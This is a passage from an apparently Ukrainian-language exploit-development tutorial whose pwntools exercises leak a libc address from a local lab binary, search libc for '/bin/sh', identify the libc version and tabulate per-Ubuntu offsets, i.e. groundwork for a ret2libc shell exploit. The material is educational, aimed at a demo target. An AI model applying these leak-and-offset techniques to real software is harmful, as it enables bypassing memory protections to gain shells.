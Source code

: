 ```python
        print(f"{func:12} = {hex(addr)}")
    except:
        print(f"{func:12} = NOT FOUND")

# Шукаємо рядки
strings = [b'/bin/sh', b'/bin/bash', b'sh']
for s in strings:
    try:
        addr = next(libc.search(s))
        print(f"{s.decode():12} = {hex(addr)}")
    except:
        print(f"{s.decode():12} = NOT FOUND")
```

### Завдання 2: Витяг libc версії

```python
#!/usr/bin/env python3
from pwn import *
import subprocess

# Leak адреси
io = process('../build/stage07_leak_demo')
io.sendline(b'LEAK')
leaked = int(io.recvline().split(b'=')[1], 16)
io.close()

print(f"[*] Leaked puts: {hex(leaked)}")

# Знайдемо яка libc
cmd = "ldd ../build/stage07_leak_demo | grep libc | awk '{print $3}'"
libc_path = subprocess.check_output(cmd, shell=True).decode().strip()
print(f"[*] Libc path: {libc_path}")

# Версія libc
cmd = f"strings {libc_path} | grep 'GNU C Library'"
version = subprocess.check_output(cmd, shell=True).decode().strip()
print(f"[*] Libc version: {version}")
```

### Завдання 3: Brute-force offset (якщо libc невідома)

Якщо ви не знаєте точної libc, але знаєте версію ОС:

```python
#!/usr/bin/env python3
from pwn import *

# Leak
io = process('../build/stage07_leak_demo')
io.sendline(b'LEAK')
leaked = int(io.recvline().split(b'=')[1], 16)
io.close()

# Останні 3 hex цифри завжди однакові (вирівнювання)
last_digits = leaked & 0xfff
print(f"[*] Leaked puts: {hex(leaked)}")
print(f"[*] Last 3 digits: {hex(last_digits)}")

# Можливі offset для різних libc (приклад)
known_offsets = {
    'Ubuntu 20.04': 0x809c0,
    'Ubuntu 22.04': 0x80ed0,
    'Ubuntu 18.04': 0x6f690,
```
